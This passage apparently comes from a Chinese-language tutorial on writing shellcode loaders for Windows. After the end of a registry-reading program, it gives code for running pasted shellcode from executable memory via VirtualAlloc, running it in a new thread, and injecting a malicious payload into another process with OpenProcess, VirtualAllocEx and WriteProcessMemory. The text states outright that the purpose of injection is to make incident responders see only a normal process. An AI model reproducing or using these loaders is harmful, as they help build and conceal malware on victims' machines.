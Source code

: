 ```bash
            printf("Failed to read registry value.\n");
        }

        // 关闭注册表项
        RegCloseKey(hKey);
    } else {
        printf("Failed to open registry key.\n");
    }

    return 0;
}
```

## 四。加载器入口点的写法

对于加载器的写法，无论别的是什么，也总得要有个入口点，也就是 api，可以使用常见的 api，可以使用自己找个少见的 api。比如：VirtualAlloc，更底层是 VirtualAllocEx。

### VirtualAlloc 直接加载

一个最简单的直接加载 payload，开辟内存空间运行，把载荷放进去。

```bash
#include <stdio.h>
#include <windows.h>
using namespace std;
int main()
{
    char shellcode[] = "把 shellcode 粘贴到这里";
    LPVOID lpAlloc = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(lpAlloc, shellcode, sizeof shellcode);
    ((void(*)())lpAlloc)();
    return 0;
}
```

### 创建线程运行

自己这个程序运行后，给自己开个线程运行

```bash
void* exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof(buf));
    CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);//创建线程运行 shellcode
```

### 远程线程加载

把恶意的载荷加载去第三方的进程，这样应急排查的话，就会看见一个正常的进程。

```bash
打开一个要加载的远程线程：
targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);

分配空间：
remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

写入内存：
WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
```
